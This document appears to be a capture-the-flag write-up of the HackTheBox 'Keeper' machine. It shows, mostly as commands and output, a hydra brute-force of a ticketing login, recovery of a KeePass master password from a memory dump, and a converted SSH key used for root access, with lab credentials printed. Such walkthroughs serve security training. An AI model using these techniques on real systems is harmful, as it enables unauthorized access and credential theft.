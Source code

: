 # HackTheBox: [Keeper](https://app.hackthebox.com/machines/Keeper)

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:13 CST
Nmap scan report for 10.10.11.227
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```

`curl` point me toward `tickets.keeper.htb`:

```console
$ curl -si $t
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 03 Oct 2023 18:14:39 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes

<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

I update `/etc/hosts` so that I may access the vhost:

```console
$ grep keeper /etc/hosts
10.10.11.227 tickets.keeper.htb
```

And:

![](_/htb-keeper-20231002-1.png)

I try `admin:admin` and capture the results using Burp:

![](_/htb-keeper-20231002-2.png)

## Exploitation

I'm able to brute-force the credentials `root:password`:[^1]

```console
$ hydra tickets.keeper.htb http-form-post "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect" -l root -P /usr/share/seclists/Passwords/cirt-default-passwords.txt
[...]
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-03 12:42:47
```

The `http://tickets.keeper.htb/rt/` ticketing interface has one ticket from a user who attached a memory dump from KeePass, a password manager utility.

![](_/htb-keeper-20231002-3.png)

Looking at the user data for the ticket requester, there is a default password:

![](_/htb-keeper-20231002-4.png)

These credentials work for `ssh` on the target:

```console
$ ssh lnorgaard@$t
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
e7880b[...]
```

## Privilege Escalation

The KeePass dump mentioned in the ticket is also available in the user's homedir:

```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Running [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) on the memory dump reveals most of the password:

```text
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Using Google, I'm able to find out that the fragment `M}dgrød med fløde` looks a lot like the phrase `Rødgrød med fløde`, a Danish food. This works, with a lowercase 'r': `rødgrød med fløde`. With that password I'm able to import data into the KeePass app:

![](_/htb-keeper-20231002-5.png)

`root` password: `F4><3K0nd!`…but it doesn't work for `ssh`.

The full KeePass data for `root` user:

```text
Group: Network, Title: keeper.htb (Ticketing Server), User Name: root, Password: ********, Creation Time: 5/19/2023 2:36:50 AM, Last Modification Time: 5/24/2023 4:48:21 AM

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
[...]
```

That key is in PPK format, and needs to be in a format suitable for OpenSSH.

```console
$ puttygen foo.ppk -O private-openssh -o id_rsa

$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
[...]
-----END RSA PRIVATE KEY-----

$ ssh -i id_rsa root@$t
[...]
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
fc94c7[...]
```
